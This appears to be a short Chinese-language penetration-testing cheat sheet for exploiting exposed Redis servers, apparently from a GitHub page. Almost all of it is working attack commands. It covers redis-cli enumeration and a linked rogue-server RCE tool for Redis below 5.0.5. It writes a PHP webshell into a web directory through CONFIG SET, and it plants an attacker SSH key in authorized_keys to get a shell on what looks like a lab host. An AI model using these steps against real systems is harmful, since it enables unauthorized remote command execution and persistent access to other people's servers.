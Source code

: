 ```bash
redis-cli -h <IP>    链接Redis
auth <PASSWD>     (身份验证)
```

```
keys * (获取所有的键)
incr xxx  (新建值)
get xxx  (获取值)
config get dir (配置文件所在的目录)
```

##### Redis Version < 5.0.5   ,   RCE
https://github.com/n0b0dyCN/redis-rogue-server?source=post_page-----49920d4188de--------------------------------


**Redis Shell 写 WebShell**
```bash
config set dir "C:/xxxxxxx"
CONFIG SET dbfilename shell.php
SET webshell "<?php system($_GET['cmd']); ?>"
save
```
如果出现 `(error) READONLY You can't write against a read only slave.` 的错误，尝试
```
SLAVEOF NO ONE
```

# 利用

可以尝试是否存在 `/var/lib/redis/.ssh` 文件夹？
```
config set dir ./.ssh
config get dir
```
成功修改就表明改目录存在。
```bash
ssh-keygen -f te   (生成一对密码)
(echo -e "\n\n"; cat te.pub; echo -e "\n\n") > spaced_key.txt  (收尾添加空格)
```
添加键
```
cat spaced_key.txt | redis-cli -h 10.129.2.1 -x set xek  (kali)
config set dbfilename "authorized_keys"  (修改名字)
save  (保存修改)
```
获得 shell
```bash
chmod 600 te ; ssh -i te redis@10.129.2.1
```


